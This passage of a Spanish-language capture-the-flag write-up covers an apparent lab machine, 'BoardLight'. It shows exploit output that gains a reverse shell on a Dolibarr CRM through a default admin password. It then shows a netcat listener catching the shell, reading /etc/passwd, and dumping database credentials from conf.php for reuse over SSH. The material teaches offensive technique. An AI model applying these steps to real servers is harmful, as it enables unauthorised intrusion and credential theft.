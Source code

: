 ~~~bash
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
~~~
Viendo asi que se tiene acceso mediante una cuenta de servicio que corre el servidor web "www-data"
~~~bash
sudo nc -nlvp 4433                                                           
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.11] 53472
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

### Pivoteo usuario relevante del servidor
Se tiene acceso a www-data, pero ese no es un usuario realmente del servidor, asi que viendo que usuarios tienen una bash en el servidor, se puede ver que existe un usuario root y larissa
~~~bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
~~~
Asi que se debe saltar al usuario larissa para poder escalar a root.
Lo primero que siempre veo son las carpetas o archivos de configuración, por lo que observando una se pudo encontrar una carpeta "conf" y dentro de ella un archivo "conf.php"
~~~bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -la
total 56
drwxr-xr-x  2 www-data www-data  4096 May 17  2024 .
drwxr-xr-x 79 www-data www-data  4096 Mar  4  2023 ..
-rw-r--r--  1 www-data www-data    31 Mar  4  2023 .htaccess
-rw-r--r--  1 www-data www-data  1736 May 17  2024 conf.php
-rw-r--r--  1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r--------  1 www-data www-data 16394 May 13  2024 conf.php.old
~~~
Entrando en "conf.php" se pudieron encontrar algunas credenciales que podrian reutilizarse para ingresar por ssh, asi que se podria probar.
~~~
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='se<SNIP>3!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
~~~